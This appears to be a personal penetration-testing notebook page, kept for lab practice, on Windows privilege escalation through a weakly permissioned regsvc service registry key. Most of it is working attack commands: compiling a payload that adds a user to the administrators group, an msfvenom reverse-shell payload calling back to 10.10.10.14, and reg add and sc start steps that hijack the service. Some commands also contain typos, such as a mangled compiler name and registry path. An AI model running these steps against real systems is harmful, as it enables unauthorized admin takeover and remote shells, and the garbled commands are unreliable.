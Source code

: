 -- -
[[Dark Arts/Privesc/Windows/Enumeration/Regsvc ACL|Enum]]
#### Payload
The payload can do anything I believe, in our example case it will be a C file that will run the system command `cmd.exe /k net localgroup administrators user /add` to add `user` to the `administrators` group. 

**Note for later, copy the C file [[Dark Arts/Useful Code/~Home|here]] when doing the lab, make sure to link it here**
To compile above linked code `windows_service.c` :
```bash
# install compiler if necessary
sudo apt install gcc-mingw-w64

# compile
x86_64 -w64-mingw-gcc windows_service.c -o x.exe
```

You can also just make a reverse shell with msfvenvom:
```bash
msfvenom -p windows/x64/reverse_tcp lhost=10.10.10.14 lport=9001 -f exe -o x.exe
```
[[Dark Arts/File Transfer/Windows|File transfer]] malware executable to the target windows box
#### Exploit
For this example, payload `x.exe` was transferred to `C:\Temp`
```powershell
# add malware to registry
reg add HKLM\SYSTEM\CurrentControlSet\Sservices\regsvc /v ImagePath /t REG_EXPAND_SZ /d <path to malware> /f 

reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d c:\temp\x.exe /f 

# start the service
sc start regsvc

# You should have caught a reverse shell if you went with that, if you went with the user add and windows_service.c, then confirm "user" was added to "administrators" group:
net localgroup administrators

# then log in as "user"
```